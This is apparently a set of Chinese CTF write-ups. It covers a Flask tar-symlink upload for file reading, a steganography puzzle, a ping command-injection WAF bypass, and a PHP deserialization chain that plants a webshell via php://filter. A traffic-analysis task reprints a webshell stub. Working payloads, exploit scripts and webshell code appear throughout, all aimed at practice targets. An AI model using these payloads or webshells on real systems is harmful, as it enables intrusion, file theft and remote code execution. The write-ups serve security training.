===

## [WEB] [NSSRound#6 Team] check(V2)

### 题解

开门 flask 源码:

```python
# -*- coding: utf-8 -*-
from flask import Flask,request
import tarfile
import os

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['tar'])
# 只允许上传 tar 后缀文件

def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

@app.route('/')
def index():
    with open(__file__, 'r') as f:
        return f.read()

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return '?'
    file = request.files['file']
    if file.filename == '':
        return '?'
    print(file.filename)
    if file and allowed_file(file.filename) and '..' not in file.filename and '/' not in file.filename:
        # 防路径穿越
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], file.filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a tarfile'
    try:
        tar = tarfile.open(file_save_path, "r")
        tar.extractall(app.config['UPLOAD_FOLDER'])
    except Exception as e:
        return str(e)
    os.remove(file_save_path)
    return 'success'

@app.route('/download', methods=['POST'])
def download_file():
    filename = request.form.get('filename')
    if filename is None or filename == '':
        return '?'
    
    filepath = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    
    if '..' in filename or '/' in filename:
        return '?'
    
    if not os.path.exists(filepath) or not os.path.isfile(filepath):
        return '?'
    
    with open(filepath, 'r') as f:
        return f.read()
    
@app.route('/clean', methods=['POST'])
def clean_file():
    os.system('su ctf -c /tmp/clean.sh')
    return 'success'

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=80)
```

审计了一下代码, 应该是传一个恶意的 tar 打包文件上去就可以了; 关于 tar, 打包命令如下:

```bash
tar -cvf <tar_filename> <origin_name>
```

值得一提的是, tar 不是压缩文件, 而是 **打包/归档**, 结构相对保持不变;

首先想到的是**可执行文件**: 传一个 python 后门过去, 这里要注意, flask 配置中, 对某一地址的 python 文件是默认静态读取的;

还有另一种攻击方式: **软链接攻击**, 传一个软链接文件上去, 例如链接到 `/etc/passwd`, 然后读这个软链接文件, 就可以得到泄露的文件, 从而达到任意读的目的;

实测之后发现软链接攻击有效, 创建软链接:

```bash
echo "flag" > /flag
ln -sf /flag ./slink 
```

打包:

```bash
tar -cf ./slink.tar ./slink
```

上传:

```python
import requests

url = 'http://node5.anna.nssctf.cn:24758/upload'
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

f = open(r'./slink.tar', 'rb')
files = {'file': f}

try:
    resp = requests.post(url, files=files, proxies=proxies, timeout=30)
    print(resp.status_code)
    print(resp.text)
finally:
    f.close()
```



下载:



### 总结

主要收获: 利用上传软链接文件进行任意读文件;

需要注意的一个坑是, windows 中 git bash **无法得到真正的软链接文件;**

## [MISC] [NSSRound#V Team] 画出一个flag

### 题解

下载附件, 是一个图片, 用 stegsolve 打开:

分析发现 RGB 三通道的最低位有一串可疑的隐藏数据, `PK` 开头说明是一个压缩包, 含有一个名字就是 `flag.dat` 的执行文件:



`save bin` 之后在 windows 系统中解压, 打开这个执行文件:



解码输出:

```python
import base64

path = "flag.txt"

bin_data = []
for line in open(path, "r").readlines():
    line = line.strip()

    bin_str = ''
    for tmp in base64.b64decode(line):
        bin_str += str(bin(tmp))[2:].zfill(8)

    bin_data.append(bin_str)

with open("out.txt", "w") as f:
    for bin_str in bin_data:
        f.write(bin_str + "\n")
```

vscode 打开:



把图缩小, 注意右边有隐写, 这就是 flag:

```
NSSCTF{!!Draw_draw_A_flag!!}
```

## [WEB] [GXYCTF 2019] Ping Ping Ping

### 题解

一个 ping 其他网址的界面。



fuzz 以下发现这里有一处 WAF, 过滤了 ` `, `()` 等, 尝试发现可以用 `;` 和 `$` :



接下来试试用 `$IFS` 绕过空格, 也可行, 不过 flag 和 通配符都被过滤了; 不过反引号可以使用:

> 反引号的作用和 `|` 类似, 例如 `ls` 的结果是 *flag.php index.php* 时, 用 ``cat `ls` `` 就可以挨个输出其中内容;

最终 payload: ( `tail` 或者 `tac` 都可以)

```bash
4399.com;tac$IFS`ls`
```

打开源码看见 flag:



## [WEB] [羊城杯 2020] easyser

### 题解

打开是 Ubuntu apache 默认界面:



目录扫描:



`robots.txt` 内容为: 

```
Disallow: /star1.php/
```

进入界面, 是一个疑似 RCE / SSRF 的界面:





多轮测试之后发现使用 http 协议就可以读文件:

```http
GET ?path=http://127.0.0.1/ser.php
```

得到源码:

```php
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

一个比较明显的反序列化链子, 构造:

```php
$a = new GWHT();
$a->hero = new Yongen('webshell.php','<?php @eval($_POST[shell]); ?>');
```

接下来是改变其中的内容, 使得内容可以绕过 `die()` 的限制; 另外需要找到这个反序列参数的注入位置:

找了半天没找到注入点, 看了眼 wp , 需要用 arjun fuzz 出注入点是 GET `c`:

exp:

```php
<?php

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yasuo{
    public function hasaki(){
        return "You don't look very happy";
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
} 

$a = new GWHT();
$b = new Yongen();
$b->file = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php';
$b->text = base64_encode("hacked<?php eval(\$_GET['shell']);?>");
$a->hero = $b;
echo urlencode(serialize($a));
```

得到

```
O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A77%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.strip_tags%7Cconvert.base64-decode%2Fresource%3Dshell.php%22%3Bs%3A4%3A%22text%22%3Bs%3A48%3A%22aGFja2VkPD9waHAgZXZhbCgkX0dFVFsnc2hlbGwnXSk7Pz4%3D%22%3B%7D%7D
```

结合 SSRF + GET 传入:





最终的真 flag 在根目录下:



## [MISC] [陇剑杯 2021] webshell (问6) 

### 题解

一个流量包集, 题目:

> 单位网站被黑客挂马, 请您从流量中分析出webshell, 进行回答：
黑客代理工具的回连服务端IP是_____________。得到的flag请使用NSSCTF{}格式提交。

稍微审计一下, 是 php 网站, 结合 webshell, 注意一下 post 包:

```
http.request.method == "POST"
```

> 注意区分大小写;



注意这一段非常可疑, 把这段字符串放去解码发现就是 webshell; 接下来检查上下文, 发现后文有一个特别长的报文:



第一部分是一个 webshell 执行桩, (中国菜刀 / 冰蝎 / 哥斯拉系风格), 主要特征:

- POST 参数名随机化
- PHP 执行环境控制: `ini_set` / `set_time_limit`
- 输出通道包裹: 复杂字符串包裹用于客户端定位输出
- Base64 / Hex 编码 Payload 防止检测

```php
// 关闭错误输出, 避免暴露
@ini_set("display_errors", "0");
// 取消执行时间限制
@set_time_limit(0);

function asenc($out){return $out;};

// 统一回显封装函数
function asoutput(){
    // 开启输出缓冲
    $output=ob_get_contents();
    ob_end_clean();
    // 输出分隔魔数
    echo "d0a07c"."821782";
    echo @asenc($output);
    echo "73cf"."0daeb";
}
ob_start();
try{
    // 注意这里, 是从第三个字符开始解码并读指令
    $f=base64_decode(substr($_POST["j68071301598f"],2));
    $c=$_POST["xa5d606e67883a"];
    $c=str_replace("\r","",$c);
    $c=str_replace("\n","",$c);
    $buf="";
    for($i=0;$i<strlen($c);$i+=2)
    $buf.=urldecode("%".substr($c,$i,2));
    echo(@fwrite(fopen($f,"a"),$buf)?"1":"0");;
}
catch(Exception $e)
{echo "ERROR://".$e->getMessage();};
asoutput();
die();
```

审计完这段代码, 再来看包里的参数: 

```
Form item: "j68071301598f" = "TqL3Zhci93d3cvaHRtbC9mcnBj"
```

这段编码从第 3 位开始解码的结果是:

```
/var/www/html/frpc
```

也就是利用了 frp 的方式来出网, 注意到 frp 服务必须有一个 `frp.ini` 配置文件; 继续搜索上下文, 在 343 号包中的同名参数中发现:



